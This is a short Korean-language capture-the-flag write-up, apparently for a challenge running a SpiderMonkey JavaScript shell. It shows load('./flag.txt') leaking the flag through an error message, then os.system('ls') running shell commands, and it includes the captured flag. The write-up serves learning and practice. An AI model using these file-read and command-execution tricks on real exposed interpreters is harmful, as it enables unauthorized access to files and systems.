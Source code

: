     아까 ``help()`` 결과중 파일을 읽는 함수를 찾아보면

    ```
    load(['foo.js' ...])
    loadRelativeToScript(['foo.js' ...])
    run('foo.js')
    readRelativeToScript(filename, ["binary"])
    os.file.readFile(filename, ["binary"])
    ...
    ```

    많은 함수들이 존재합니다.
    
    먼저 파일 관련된 load 함수를 ``console.log(load('./flag.txt'));`` 이렇게 시도해보니

    ```js
    errors:
    /usr/src/app/./flag.txt:1:6 SyntaxError: unexpected token: '{':
    /usr/src/app/./flag.txt:1:6 utflag{d1d_y0u_us3_a_j1t_bug_0r_nah}
    /usr/src/app/./flag.txt:1:6 ......^
    Stack:
      @1943462120256576285.js:1:13
    
    ```

    이런 로그가 나오게 되면서
    플래그 탈취에 성공하였습니다.
    

+ #### 문제 풀이 2

    위의 문제 풀이대로 ``help()``를 시도하여 함수 설명들을 읽어보면

    ``/flag.txt`` 힌트 없이도

    ``os.system`` 함수를 이용하여 shell명령어를 사용할 수 있었습니다.

    ```
    console.log(os.system("ls"));

    output:
    1001594621380063572.js
    1008553980228079692.js
    103302417580101409.js
    1035975800224810760.js
    ...(생략)
    99706464801547583.js
    Dockerfile
    README.md
    app.py
    docker-compose.yml
    flag.txt
    js
    jsshell-linux-x86_64.zip
    requirements.txt
    sploit.js
    static
    templates
    0
